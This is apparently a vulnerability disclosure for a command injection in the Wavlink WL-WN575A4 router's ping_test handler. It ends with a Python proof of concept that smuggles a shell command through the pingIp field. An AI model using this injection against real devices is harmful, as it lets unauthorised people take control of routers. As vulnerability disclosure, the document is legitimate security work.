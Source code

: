 # command injection

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a command injection in adm.cgi/ping_test

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](5.png)

get value from pingIp, concate and call system, cause command injection



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm','pingIp': payload})
``` 
